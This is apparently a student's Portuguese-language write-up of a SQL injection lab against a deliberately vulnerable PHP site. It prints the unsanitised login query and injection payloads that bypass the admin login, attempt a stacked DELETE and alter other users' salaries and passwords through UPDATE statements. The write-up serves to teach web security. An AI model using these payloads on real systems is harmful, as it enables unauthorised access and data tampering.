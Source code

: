 # Semana 8 - SQL Injection Attack

## Task 1 - Get Familiar with SQL Statements

Após correr `show tables` no terminal do `mysql`, conseguimos observar que há 1 tabelas: **credential**<br>
Portanto, se quisermos ver todas as entries da tabela **credential**, podemos fazer:

```sql
SELECT * FROM credential;
```

O resultado é o seguinte:

![image](Semana_8/images/image.png)

Alternativamente, como o que é pedido é especificamente para o utilizador **Alice**, podemos fazer:

```sql
SELECT * FROM credential WHERE Name = "Alice";
```


## Task 2 - SQL Injection Attack on SELECT Statement

### Task 2.1 - SQL Injection Attack from webpage

Para autenticar um utilizador, é utilizado o seguinte código no ficheiro `unsafe_home.php`:

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= '$input_uname' and Password='$hashed_pwd'";
```

Como podemos observar, os parâmetros não são sanitizados, o que cria uma vulnerabilidade de **SQL Injection**.<br>
Devido a esta vulnerabilidade, como sabemos que o user da conta administrativa tem username `admin`, então podemos dar login com os seguintes dados

![image](Semana_8/images/image2.png)

Após submeter os dados, a seguinte query será realizada pelo servidor:

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
FROM credential
WHERE name= 'admin'# and Password='$hashed_pwd'";
```

Com isto, conseguimos ser autenticados na conta do **admin**, mesmo sem saber a password.

![image](Semana_8/images/image3.png)


### Task 2.2 - SQL Injection Attack from command line

Esta task é semelhante à anterior, mas pela command line, ou seja, temos que mandar um request utilizando o comando `curl`.<br>

Para fazer isso, inserimos o seguinte comando no terminal:

``` 
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Neste caso, como precisamos de escapar o caracter `'` e `#` eles são representados com `%27` e `%23`, respetivamente. 

Isto vai fazer com que o servidor faça a mesma query à base de dados que fez na task anterior e temos acesso ao código html da página com a tabela **credential**.

![image](Semana_8/images/image4.png)

### Task 2.3 - Append a new SQL statement

Para tentar tornar um SQL statement em 2, podemos inserir os seguintes dados no login:

`admin'; DELETE * FROM credential; #`

Isto vai eliminar todas as entries na tabela **credential**.<br>
No entanto, quando tentamos fazer isto, recebemos a seguinte mensagem:

![image](Semana_8/images/image5.png)

Após ler a documentação, descobrimos que, para funcionar, era necessário usar-se a função `multi_query()`.

![image](Semana_8/images/image6.png)

Como é utilizada a função `query()`, o nosso ataque que tenta tornar 1 SQL statements em 2 não funciona.

## Task 3 - SQL Injection Attack on UPDATE Statement

### Task 3.1 - Modify your own salary

Após olhar para o ficheiro `unsafe_edit_backend`, notamos que, tal como para fazer login, a query à base de dados não sanitiza os parâmetros, portanto está vulnerável a ataques de SQL Injection.<br>
Embora no site não tenhamos a opção para editar o salário, com um ataque de SQL Injection isso é possível da seguinte forma:

![image](Semana_8/images/image7.png)

Isto seria equivalente a correr a seguinte query:

```php
$sql = "UPDATE credential SET nickname='',email='',address='Rua da Cedofeita', salary='1000000',Password='', PhoneNumber='' where ID=$id;"
```

No final, o perfil da Alice ficou assim:

![image](Semana_8/images/image8.png)

Como podemos observar, o salário da Alice agora é 1000000.

### Task 3.2 - Modify other people’ salary

Para mudar o salário de outra pessoa, podemos fazer um ataque semelhante ao que fizemos na task anterior, exceto que também temos que adicionar uma condição para o ID de outro utilizador.<br>

![image](Semana_8/images/image9.png)

Isto seria equivalente a correr a seguinte query:

```php
$sql = "UPDATE credential SET nickname='',email='',address='',Password='', PhoneNumber='1',salary='1' where ID=2 #where ID=$id;"
```

Após fazer `select * from credential` no terminal, conseguimos observar que o utilizador com ID = 2, o **Boby**, tem agora Phone Number = 1 e Salary = 1.

![image](Semana_8/images/image10.png)

### Task 3.3 - Modify other people’ password

Para mudar a palavra passe de outra pessoa, usamos uma técnica semelhante às anteriores, mas agora alteramos a password. Decidimos alterar a password do utilizador Boby (ID = 2) para `123`. 

![image](Semana_8/images/image11.png)

Após entrar no perfil do Boby, conseguimos ver que o Phone Number é 1

![image](Semana_8/images/image12.png)

Se formos à base de dados e fizermos `select * from credential` observamos o seguinte:

![image](Semana_8/images/image13.png)

Como podemos ver, a **password** do Boby é `40bd001563085fc35165329ea1ff5c5ecbdbbeef`, que é `123` depois de ser encriptado com criptografica sha1.
